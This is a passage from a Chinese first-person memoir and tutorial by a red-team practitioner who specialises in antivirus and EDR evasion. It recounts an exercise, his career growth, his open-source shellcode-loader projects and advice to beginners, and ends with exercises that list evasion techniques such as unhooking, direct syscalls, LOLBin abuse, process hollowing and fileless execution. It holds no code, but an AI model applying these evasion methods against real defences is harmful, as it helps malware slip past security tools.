这一次，我们一路高歌猛进，势如破竹。

而这一切的基础，就是我的免杀马。

因为免杀马能站稳脚跟，后续的操作才能开展。

不然的话，马刚上去就被杀了，后面什么都白搭。

**图124-5 第二次护网攻击路径图**


### 8.4 蓝队的疑惑

有意思的是，护网进行到第五天，蓝队才发现不对。

不是因为发现了我们的马，而是因为发现域控被登录了很多次。

他们查了半天，也没查到我们的马在哪。

EDR告警里，什么都没有。

他们估计也挺懵的：

> "奇怪了？
> 域控怎么被登录了？
> 我们的马呢？
> 不对，红队的马呢？
> 怎么一个都没查到？
> 他们到底是怎么进来的？"

后来听蓝队的人说（护网结束后交流的时候），他们当时查了好几天，都没查到我们的马。

最后还是通过日志分析，才发现了一些蛛丝马迹。

但那时候，我们已经把该拿的都拿了。

### 8.5 最终成绩

护网结束，我们队拿了第二名。

差一点就拿第一了。

老板特别高兴，回来就开庆功宴。

宴会上，老板举着酒杯对我说：

> "小飞，这次你是首功啊！
> 要不是你的免杀马，我们根本走不了这么远。
> 好样的！没让我失望！"

我当时心里美滋滋的。

> "终于证明自己了。
> 这一年多的努力，没有白费。
> 上次护网的憋屈，这次终于找回来了。"

### 8.6 薪资又涨了

护网结束后，老板直接给我涨了工资。

从6000涨到了15000。

翻了一倍还多。

而且给我升了职，让我当技术主管，专门负责免杀和红队工具研发。

手下还带了两个人。

> "15000啊！
> 我以前想都不敢想。
> 一年前我还拿3500呢。
> 这才一年多，就翻了四倍多。
> 技术真的能改变命运啊。"

那天晚上，我又失眠了。

跟上次不一样，上次是因为挫败，这次是因为开心。

我躺在床上，回想着这一年多的经历：

从一个连C语言都学不明白的编程小白，
到现在能带领团队做免杀研发的技术主管。

从月薪3500，到月薪15000。

从第一次护网的全军覆没，到第二次护网的大放异彩。

这一路走来，有太多的酸甜苦辣。

但我知道，这还只是开始。

免杀这条路，还有很长要走。

技术在更新，杀软在升级，EDR也在进步。

我不能停下脚步。

---

## 🌟 成为免杀专家

### 9.1 公司的免杀专家

从那以后，我就成了公司的免杀专家。

公司所有跟免杀相关的项目，都由我来负责。

我带领团队，继续优化那个免杀框架。

不断加入新的技术，不断更新绕过方法。

我们的免杀框架，也从1.0、2.0，升级到了3.0、4.0...

越来越强。

基本上，主流的杀软和EDR，都能过。

在圈内也慢慢有了点小名气。

很多其他公司的人，都来找我们交流免杀技术。

### 9.2 继续学习

虽然已经是公司的免杀专家了，但我不敢有丝毫懈怠。

我知道，技术这条路，不进则退。

杀软和EDR一直在更新，我们的免杀技术也得跟着更新。

所以我每天都在学习：

- 关注最新的安全资讯
- 研究新的免杀技术
- 分析新的EDR检测方法
- 跟圈内的大佬交流
- 参加各种技术会议和沙龙

我还在学习内核编程。

虽然之前觉得很难，但慢慢啃，也啃下来了一些。

内核级免杀，也是未来的一个方向。

### 9.3 薪资翻三倍

又过了一年多，我的工资又涨了。

从15000涨到了30000+。

加上项目奖金、年终奖，年薪差不多有四五十万。

是以前的十几倍。

> "四五十万啊！
> 我以前想都不敢想。
> 我一个大专生，能拿到这个薪资，放在以前，我做梦都不敢想。
> 这一切，都是因为免杀。
> 都是因为我当初选择了死磕到底。"

我也从出租屋，搬到了自己买的房子里（虽然是贷款买的）。

生活发生了翻天覆地的变化。

我经常跟朋友开玩笑说：

> "我这也算是靠技术改变命运了吧？"

说真的，我挺庆幸的。

庆幸当初没有放弃。

庆幸当初选择了死磕免杀。

---

## 🚀 开源之路

### 10.1 开源的想法

做了几年免杀，我心里一直有个想法：**把自己的免杀工具开源出去**。

为什么想开源？

原因有很多：

1. **回馈社区**：我也是看了很多大佬的开源项目才成长起来的，想为社区做点贡献
2. **帮助更多人**：很多像我一样的小白，想学免杀但是找不到门路
3. **提升自己**：开源能倒逼自己写出更好的代码，也能收到别人的反馈
4. **积累名气**：开源项目做得好，能在圈内积累名气

但是我也有顾虑：

1. **会不会被滥用？**：免杀工具这个东西，容易被坏人拿去干坏事
2. **会不会有法律风险？**：这个得搞清楚
3. **公司会不会有意见？**：毕竟有些技术是在公司做的

想了很久，我还是决定开源。

但是要做好规范：

- 只开源学习用的工具，不开源完整的武器化框架
- 加上免责声明，仅供学习研究使用
- 只开源原理性的东西，不开源能直接用来攻击的

这样应该就没问题了。

### 10.2 第一个开源项目

我的第一个开源项目，叫**"SimpleLoader"**。

就是一个简单的Shellcode加载器，带了一些基础的免杀技巧。

比如：
- Shellcode加密
- 动态获取API
- 简单的反调试
- 控制流平坦化示例
- 直接系统调用示例

虽然功能比较简单，但都是我从零基础一步步学过来的东西。

我写了详细的文档，解释每一个技术点的原理。

就是想让像我一样的小白，能有个入门的地方。

我把项目传到了GitHub上。

一开始也没什么人关注。

我也不急，慢慢来呗。

### 10.3 慢慢火了

没想到，过了几个月，项目居然慢慢火起来了。

可能是因为我写的文档特别详细，特别适合小白入门。

很多人在GitHub上给我提issue、提PR。

还有很多人加我微信，跟我交流免杀技术。

Star数从几十，到几百，到几千。

越来越多的人知道了我。

圈内也慢慢有了点名气。

很多人都叫我"飞哥"。

说实话，这种感觉挺好的。

能帮助到别人，能被别人认可，是一件很有成就感的事。

### 10.4 更多开源项目

第一个项目火了之后，我又陆续开源了几个项目：

1. **SyscallHelper**：系统调用辅助工具，能动态生成syscall代码
2. **ReflectiveLoader**：一个简单的反射型DLL加载器，适合学习
3. **DotNetObfuscator**：一个简单的.NET混淆工具
4. **AntiDebugLib**：反调试、反沙箱库

虽然都是些小工具，不是什么高大上的东西，但都挺实用的。

每个项目我都写了详细的文档和教程。

我觉得，对于初学者来说，能看懂、能学会，比什么都重要。

---

## 💡 给后来者的建议

### 11.1 一些心里话

经常有一些小白加我微信，问我各种问题。

比如：
- "飞哥，我零基础能学免杀吗？"
- "飞哥，学免杀要学哪些东西啊？"
- "飞哥，我学了好久还是学不会，是不是我太笨了？"
- "飞哥，有没有快速成为免杀大佬的方法？"

每次看到这些问题，我就想起了当年的自己。

当年的我，也跟他们一样，迷茫、困惑、找不到方向。

所以今天，我想跟大家聊聊心里话，给后来者一些建议。

### 11.2 编程基础很重要

**第一个建议：编程基础很重要，一定要打牢。**

我知道，很多人学免杀，都喜欢上来就搞各种花里胡哨的技巧。

什么加壳、什么混淆、什么注入...

觉得这些才是"真技术"。

编程基础？C语言？指针？

"那玩意儿有啥用？我又不当开发。"

大错特错！

编程基础才是重中之重。

没有扎实的编程基础，你学再多免杀技巧，也都是空中楼阁。

只会用工具，只会抄代码，遇到问题根本不知道怎么解决。

我自己就是最好的例子。

刚开始学免杀的时候，我C语言都没学好。

走了多少弯路？

后来重新补C语言、补汇编、补PE结构，花了多少时间？

如果我一开始就把基础打牢，后面肯定能少走很多弯路。

> 💡 **编程基础差能学好免杀吗？**
> 能！当然能！
> 我就是最好的例子。
> 我大专毕业，C语言学了三年都没学明白。
> 最后不也学成了吗？
>
> 但是！基础差没关系，你得补啊！
> 不能因为基础差就不学了。
> 也不能跳过基础直接学高级的。
> 那样你学不会的，就算学会了也是半吊子。
>
> 基础差没关系，笨鸟先飞嘛。
> 别人学一遍，我学十遍。
> 别人学一个月，我学三个月。
> 只要肯下功夫，就没有学不会的。

### 11.3 不要急功近利

**第二个建议：不要急功近利，稳扎稳打。**

现在很多人都很浮躁。

学了没几天，就想做出能过360、过火绒、过EDR的免杀马。

做不出来就怀疑自己，就想放弃。

或者到处找"一键免杀"、"最新免杀工具"。

总想着走捷径。

我想说的是：

免杀没有捷径。

想成为免杀大佬，就得一步一个脚印，踏踏实实地学。

从C语言，到汇编，到PE结构，到Shellcode，到加载器，到静态免杀，到动态免杀，到加壳脱壳，到EDR对抗，到内核免杀...

一步一步来。

每一步都走扎实了。

基础打牢了，后面学什么都快。

基础不牢，地动山摇。

我自己学了快一年，才做出第一个能过360的免杀马。

又学了半年多，才搞定EDR。

这还是在我天天熬夜、几乎把所有业余时间都用上的情况下。

你想几个月就成为免杀大佬？

不可能的。

慢慢来，比较快。

### 11.4 多动手实践

**第三个建议：多动手，多实践，不要光看教程。**

很多人学免杀，就是天天看教程、看文章、看视频。

看的时候觉得"哦，原来是这样，我懂了"。

结果一上手，啥也不会。

看和做，完全是两回事。

免杀是一门实践性非常强的技术。

你不动手写代码，不动手测试，不动手调试，永远学不会。

我的建议是：

- 看完一个知识点，马上动手写代码试试
- 学了一个免杀技巧，马上动手实现一下
- 自己写的免杀马，拿到各种杀软里去测
- 遇到问题，自己调试，自己想办法解决
- 不要一遇到问题就问别人，先自己想，实在想不出来再问

只有自己动手做过了，才是真正学会了。

不然都是纸上谈兵。

### 11.5 要有耐心和毅力

**第四个建议：学免杀要有耐心，要能坚持。**

免杀这条路，不好走。

你会遇到无数的失败和挫折。

可能你研究了好几个星期，一点进展都没有。

可能你改了几十版，杀软还是一查一个准。

可能你好不容易做出来了，杀软一更新，又不行了。

这些都是常态。

这个时候，最考验人的就是耐心和毅力。

能不能坚持下去？

能不能死磕到底？

很多人遇到困难就放弃了。

但只要你坚持下来了，你就赢了。

因为大部分人都坚持不下来。

我能有今天，不是因为我聪明。

说实话，我挺笨的。

别人学一遍就会的东西，我得学好几遍。

但我有一个优点：**能坚持**。

认准了一件事，就死磕到底。

哪怕撞了南墙，我也得把墙撞破了再过去。

就是这股劲，支撑着我走到了今天。

### 11.6 保持敬畏之心

**第五个建议：对技术保持敬畏之心，永远不要觉得自己很牛逼。**

免杀这个领域，水太深了。

你永远有学不完的东西。

今天你觉得自己很厉害了，明天可能就出来一个新的检测技术，把你所有的免杀都干趴下。

所以永远不要骄傲自满。

永远保持学习的态度。

永远对技术保持敬畏之心。

我现在虽然也算有点小成就，但我从来不敢说自己是"免杀大佬"。

比我厉害的人多了去了。

我还差得远呢。

---

## 📖 写在最后

### 12.1 故事还在继续

好了，我的故事讲到这里，差不多就告一段落了。

从一个编程菜鸟，到小有名气的免杀从业者。

这一路走来，有太多的感慨。

但是故事还没有结束。

免杀技术在发展，杀软在升级，EDR在进步。

我也还在学习，还在进步。

未来还有很长的路要走。

### 12.2 送给大家的话

最后，送给大家一段话：

> 如果你也想学好免杀，
> 如果你现在正处于迷茫期，
> 如果你觉得自己笨、学不会，
> 请不要放弃。
>
> 想想当年的我，
> 一个连C语言都学不明白的大专生，
> 都能靠死磕走到今天。
> 你为什么不行？
>
> 只要你肯努力，
> 只要你肯坚持，
> 只要你肯死磕到底，
> 你也一定可以的。
>
> 技术这条路，
> 从来都不会辜负真正努力的人。
>
> 加油吧，少年！
> 我们山顶见！

---

## ✏️ 课后习题

### 习题1：EDR对抗技术

**题目：**
简述EDR的检测原理，以及常见的EDR对抗技术有哪些？

**参考答案：**
EDR的检测是多层体系，主要包括：
1. 静态检测层：特征码扫描、启发式扫描、AI检测、云查杀
2. 用户态行为检测层：进程监控、API Hook、内存扫描、行为分析
3. 内核态监控层：进程/线程监控、文件/注册表/网络过滤驱动、回调函数
4. 网络检测层：C2通信检测、异常流量分析、威胁情报匹配

常见的EDR对抗技术：
1. 未挂钩（Unhook）：恢复被Hook的API
2. 直接系统调用：绕过用户态API，直接调用syscall
3. 间接系统调用：通过ntdll里的syscall指令发起调用，更隐蔽
4. 白利用：用系统自带的合法工具执行恶意代码
5. 无文件攻击：不在磁盘落地，直接在内存中执行
6. 反射型DLL注入：自己加载DLL，不走系统加载流程
7. 内存免杀：分段解密、执行时解密，内存中无完整Shellcode
8. 行为伪装：把恶意行为伪装成正常行为

---

### 习题2：无文件攻击

**题目：**
什么是无文件攻击？常见的无文件攻击手段有哪些？

**参考答案：**
无文件攻击（Fileless Attack）是一种不向磁盘写入恶意文件的攻击方式，所有恶意代码都在内存中执行，或者利用系统自带的合法工具来执行。

常见的无文件攻击手段：
1. 白利用（LotL）：用系统自带工具（mshta、rundll32、regsvr32、certutil等）执行恶意代码
2. PowerShell攻击：用PowerShell直接执行恶意代码，不用落地文件
3. WMI攻击：通过WMI执行命令、实现持久化
4. 反射型DLL注入：把DLL直接注入内存，自己实现加载逻辑
5. 进程空洞化（Process Hollowing）：创建挂起进程，替换内存中的代码
6. 注册表注入：把Shellcode存在注册表里，需要时读取执行
7. .NET利用：用C#等托管语言写加载器，利用.NET的特性

---

### 习题3：直接系统调用

**题目：**
什么是直接系统调用（Direct Syscall）？它的原理是什么？为什么能绕过EDR的Hook？

**参考答案：**
直接系统调用（Direct Syscall）就是不通过用户态的API函数，直接进入内核调用系统服务。

原理：
- Windows中，用户态API最终都会调用ntdll.dll中的Native API
- Native API通过syscall指令（x64）或int 2e指令（x86）进入内核
- 每个系统调用都有一个编号（SSN，System Service Number）
- 我们可以直接设置好参数和系统调用号，然后执行syscall指令

为什么能绕过EDR的Hook：
- EDR通常只会Hook用户态的API（kernel32、ntdll中的函数）
- 直接系统调用绕过了整个用户态API调用链
- Hook在ntdll层，我们直接跳到syscall，Hook就失效了
- 注意：这只能绕过用户态Hook，如果EDR有内核层监控，还是会被检测到

---

### 习题4：学习建议

**题目：**
如果你是一个免杀初学者，你会怎么规划自己的学习路径？为什么？

**参考答案：**
这是一个开放性问题，每个人的学习方法不同。

但比较合理的学习路径应该是这样的：
1. **打基础**：先学好C语言（重点是指针、内存、结构体），再学x86/x64汇编，再学PE文件结构
2. **入门**：理解Shellcode原理，写第一个Shellcode加载器
3. **进阶**：学习静态免杀技巧（字符串加密、动态API、花指令、控制流平坦化...）
4. **深入**：学习动态免杀（反调试、反沙箱、钩子检测与绕过）、加壳脱壳
5. **高级**：学习EDR对抗（系统调用、Unhook、白利用、无文件攻击、反射注入...）
6. **专家**：内核免杀、代码虚拟化、免杀框架开发

为什么要按这个顺序：
- 基础最重要，没有基础后面都是空中楼阁
- 由浅入深，循序渐进，更容易理解和掌握
- 每一步都是下一步的基础，跳着学容易学不懂

---

> 💡 **思考题**
> 你觉得免杀技术未来的发展方向是什么？
> 随着AI技术的发展，免杀和杀毒的对抗会走向何方？
> 欢迎在评论区分享你的想法。
